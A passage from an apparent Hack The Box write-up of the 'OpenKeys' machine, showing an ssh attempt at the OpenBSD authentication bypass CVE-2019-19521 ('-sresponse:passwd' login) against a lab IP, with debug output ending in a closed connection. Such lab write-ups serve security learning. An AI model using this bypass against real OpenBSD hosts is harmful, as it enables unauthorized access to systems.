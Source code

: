 OpenBSD, /usr/libexec/ld.so, libc.so.95.1 looked like places to start investigating

[https://blog.firosolutions.com/exploits/cve-2019-19521-openbsd-libc-2019/](https://blog.firosolutions.com/exploits/cve-2019-19521-openbsd-libc-2019/)

```text
┌──(zweilos㉿kali)-[~/htb/openkeys]
└─$ ssh -v -F /dev/null -o PreferredAuthentications=keyboard-interactive -o KbdInteractiveDevices=bsdauth -l -sresponse:passwd 10.10.10.199
OpenSSH_8.3p1 Debian-1, OpenSSL 1.1.1g  21 Apr 2020
debug1: Reading configuration data /dev/null
debug1: Connecting to 10.10.10.199 [10.10.10.199] port 22.
debug1: Connection established.
...snipped...
debug1: Remote protocol version 2.0, remote software version OpenSSH_8.1
debug1: match: OpenSSH_8.1 pat OpenSSH* compat 0x04000000
debug1: Authenticating to 10.10.10.199:22 as '-sresponse:passwd'
debug1: SSH2_MSG_KEXINIT sent
debug1: SSH2_MSG_KEXINIT received
debug1: kex: algorithm: curve25519-sha256
debug1: kex: host key algorithm: ecdsa-sha2-nistp256
debug1: kex: server->client cipher: chacha20-poly1305@openssh.com MAC: <implicit> compression: none
debug1: kex: client->server cipher: chacha20-poly1305@openssh.com MAC: <implicit> compression: none
debug1: expecting SSH2_MSG_KEX_ECDH_REPLY
debug1: Server host key: ecdsa-sha2-nistp256 SHA256:gzhq4BokiWZ1NNWrblA8w3hLOhlhoRy+NFyi2smBZOA
The authenticity of host '10.10.10.199 (10.10.10.199)' can't be established.
ECDSA key fingerprint is SHA256:gzhq4BokiWZ1NNWrblA8w3hLOhlhoRy+NFyi2smBZOA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.199' (ECDSA) to the list of known hosts.
debug1: rekey out after 134217728 blocks
debug1: SSH2_MSG_NEWKEYS sent
debug1: expecting SSH2_MSG_NEWKEYS
debug1: SSH2_MSG_NEWKEYS received
debug1: rekey in after 134217728 blocks
...snipped...
debug1: SSH2_MSG_EXT_INFO received
debug1: kex_input_ext_info: server-sig-algs=<ssh-ed25519,ssh-rsa,rsa-sha2-256,rsa-sha2-512,ssh-dss,ecdsa-sha2-nistp256,ecdsa-sha2-nistp384,ecdsa-sha2-nistp521>
debug1: SSH2_MSG_SERVICE_ACCEPT received
debug1: Authentications that can continue: publickey,password,keyboard-interactive
debug1: Next authentication method: keyboard-interactive
Connection closed by 10.10.10.199 port 22
```

[https://packetstormsecurity.com/files/155572/Qualys-Security-Advisory-OpenBSD-Authentication-Bypass-Privilege-Escalation.html](https://packetstormsecurity.com/files/155572/Qualys-Security-Advisory-OpenBSD-Authentication-Bypass-Privilege-Escalation.html)

So the system seemed like it was vulnerable, but I was still not sure how to exploit this to gain access

## Road to User
